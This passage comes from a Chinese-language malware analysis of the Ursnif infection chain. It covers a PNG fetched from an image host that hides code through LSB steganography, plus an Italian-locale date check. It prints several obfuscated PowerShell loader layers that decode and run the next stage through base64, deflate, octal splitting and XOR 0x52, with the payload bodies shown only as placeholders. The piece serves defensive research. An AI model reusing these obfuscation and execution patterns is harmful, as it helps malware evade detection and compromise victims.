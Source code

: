 这段代码在ursnif感染链中很常见，其功能是从图片共享平台（例如imgbox.com）上下载特定的PNG图像。该图像通过已经阐述的[LSB隐写技术](https://blog.yoroi.company/research/ursnif-long-live-the-steganography/)，隐藏着下一步的powershell代码。

[![](https://p3.ssl.qhimg.com/t016b48b0a3807fbfff.png)](https://p3.ssl.qhimg.com/t016b48b0a3807fbfff.png)

这张看似无害的图像中隐藏的代码如下：

```
代码片段5:
if((g`E`T-date -uformat (‘%B’)) -like (“`{`1`}``{`0`}`”-f’gg*’,’*’))`{`&amp; ( $vERboSEPrefeRENCE.TosTRInG()[1,3]+’x’-Join”)(New-OBJeCT  Io.COmpREssiOn.DefLatEStREAm( [Io.MemORySTream] [ConvErt]::fRoMBAse64STrING(‘ OBFUSCATED PAYLOAD THREE ‘ ), [Io.compREsSIon.ComPrEssIoNmODE]::dECOMprEsS ) | foreaCH-obJect`{` New-OBJeCT SYstEM.io.StreAmREAdER($_,[TExt.ENcodINg]::ASCII )`}`).reADtoEnD()`}`
```

仔细观察代码的第一行，可以注意到只有在特定条件满足时才会执行此代码：它检索当前日期，提取其中的月份字段，在本示例中是5月（意大利语的Maggio），并将其与正则表达式`*gg*`进行比较。此检查确保目标用户是意大利用户，并根据活动时间跨度运行该样本。一旦条件满足，将执行`OBFUSCATED PAYLOAD THREE`，揭示另一个混淆层。

```
代码片段6:
” $( sET  ‘OFs’ ”)”+ [sTRiNG]( ‘ OBFUSCATED PAYLOAD FOUR ‘ -sPLIT’@’-sPLiT ‘&amp;’ -SPlIt ‘B’-spLIT’t’-SPliT ‘Y’-spLiT ‘e’-spLIt ‘:’ -sPLIt'&lt;‘ -sPLIt ‘m’-SPLit ‘n’ | FOrEACh-obJEcT`{` ([CoNvERt]::ToinT16(( $_.tOStrinG() ) , 8)-AS[chaR]) `}`) +” $( Set-itEM  ‘VArIAblE:ofS’ ‘ ‘ )” |&amp;((gV ‘*mdR*’).nAME[3,11,2]-JOIn”)
```

第四个PAYLOAD基本上是以十六进制编码的，添加了其他的特定字符，并且可以通过`[Convert]::ToInt16()`函数进行恢复。由此揭开另一层混淆：

```
代码片段7:
(NeW-ObJEct syStEm.iO.compReSsIOn.dEfLatESTrEAM([Io.MeMoRySTReAm] [sYsteM.COnveRT]::fRombAsE64sTRINg(‘ OBFUSCATED PAYLOAD FIVE ‘),[sYstEm.Io.CompREsSIoN.cOmprEsSIonmoDE]::DeCoMPress )| FOrEACH `{`NeW-ObJEct SYstem.iO.StREaMREadER($_, [sYsTEm.tExT.eNCodinG]::aSCii )`}`).Readtoend() | &amp; ( $enV:COmSpeC[4,26,25]-join”)
```

第五个payload是一段压缩的base64编码字符串，立即解压并执行，进入第六步payload：

```
代码片段8:
(‘ OBFUSCATED PAYLOAD SIX ‘.SpLit( ‘V%JLg&lt;,t`}`y’)|foreaCh`{`[cHaR]( $_-bxOr’0x52′ )`}`) -jOIn ”| &amp; ((vaRiABlE ‘*MDR*’).NamE[3,11,2]-join”)
```

这一混淆层不同寻常，因为其包含一段大量垃圾字符串的十六进制代码，事实上，利用`0x52`进行异或加密，其结果如下：

```
代码片段9:
```